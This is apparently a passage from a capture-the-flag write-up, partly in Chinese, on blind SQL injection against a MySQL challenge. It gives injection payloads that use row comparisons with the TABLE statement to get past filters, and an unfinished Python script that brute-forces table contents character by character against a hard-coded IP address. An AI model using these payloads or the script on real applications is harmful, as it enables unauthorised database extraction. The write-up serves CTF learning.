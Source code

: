 ```has-numbering
?id=1 and substr((database()),1,4)='cnss'
?id=1 and ((binary'mysqk','')<(table/**/information_schema.TABLESPACES_EXTENSIONS/**/limit/**/0,1))#

```



![image-20240907085937841](https://img-blog.csdnimg.cn/img_convert/75710b3041378af02cc896d2e5e84f19.png)



![image-20240907091129254](https://img-blog.csdnimg.cn/img_convert/3a8559ed80e6a960ccd8c03ca773660c.png)

写个自动化脚本：（没写完）

```has-numbering
import requests

url="http://152.136.11.155:10111"

flag=""
for i in range(100):
    for j in "!#$%&()*+,-/0123456789:;<=>?@ABCDEFGHIJKLMNOPQRSTUVWXYZ[\]^_`abcdefghijklmnopqrstuvwxyz{|}~":
        # payload = "1 and ((binary'{}','')<(table information_schema.TABLESPACES_EXTENSIONS limit 7,1))#".format(flag+j)

        payload = "1 and (('def','cnss','{}',0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0)<(table information_schema.tables limit 8,1))#".format(flag+j)
        # payload = "1 and if(('def','cnss','{}',0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0)<(TABLE information_schema.tables limit {},1),0,1)"
        # payload = "1 and ('def','cnss','cn55','{}',0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0)<(TABLE cn55 limit {},1)".format(flag+j,i)

        # payload = "1 and (('1',binary'{}')<(table cnss.cn55 limit 0,1))#".format(flag+j)



        data={
            'id':payload
        }
        # r = requests.post(url=url, data=data)
        r = requests.get(url=url, params=data)

        # print(payload)
        # print(flag+j)
        # print(len(r.text))
        # print(r.text)

        if len(r.text) == 102:
            flag += chr(ord(j)-1)
            print(flag)
            break
        if j == "~":
            flag = flag[:len(flag)-1]+chr(ord(flag[-1])+1)
            print(flag)
            exit()


#库/表：mysql,innodb_system,innodb_temporary,innodb_undo_001,innodb_undo_002,sys/sys_config,cnss/users,cnss/cn55,cnss/uagents,cnss/referers

```
